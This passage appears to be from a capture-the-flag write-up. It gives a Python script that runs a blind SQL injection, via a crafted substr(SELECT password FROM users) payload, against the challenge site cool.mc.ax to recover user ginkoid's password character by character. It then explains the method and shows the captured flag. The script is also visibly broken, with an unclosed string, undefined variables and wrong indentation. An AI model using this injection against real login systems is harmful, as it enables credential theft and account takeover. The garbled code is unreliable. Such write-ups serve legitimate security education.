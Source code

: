 ```python
'''
url = "https://cool.mc.ax/"

#payload = "username=dasdfasdf&password="
headers = {
    'Host': 'cool.mc.ax',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': '38',
    'Origin': 'https://cool.mc.ax',
    'Connection': 'close',
    'Referer': 'https://cool.mc.ax/',
    'Upgrade-Insecure-Requests': '1'
}

#response = requests.request("POST", url, headers=headers, data=payload)

#print(response.text)
listCh = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
password = "GRsduxoDN79azQ7mea1C8j1EcQK"
while True:
    tempUse = ''.join(numpy.random.choice(list(listCh)) for _ in range(32))
    print(tempUse)
    payload2 = "username={}&password='||substr((SELECT+password+FROM+users),1,{}))--"
    payload2 = payload2.format(tempUse,len(password)+1)
    response2 = requests.request("POST", url2, headers=headers2, data=payload2,allow_redirects=False)
    for nChar in listCh:
    payload = "username={}&password={}"
    payload = payload.format(tempUse,password+nChar)
    response = requests.request("POST", url, headers=headers, data=payload,allow_redirects=False)
    print(password+nChar,response.status_code)
    if(response.status_code == 302):
        password+=nChar
        print("adding: "+nChar)
        break
```
What this script does is create a user with a random username and make it's password the password we have gotten so far, as well as the next letter of ginkoid's password. It then tries to login with all the letters+numbers, and adds the correct letter/number to the password. I ran this script, and found the password. I logged in to the 'ginkoid' acount, and was presented with an mp3 file named 'flag-at-end-of-file.mp3'. Based off the name, I assumed the flag was at the end of the file, ran strings ons it, and got the following flag:
### Flag:
`flag{44r0n_s4ys_s08r137y_1s_c00l}`

## Pastebin 1 (530 solves/104 points)
### Description:
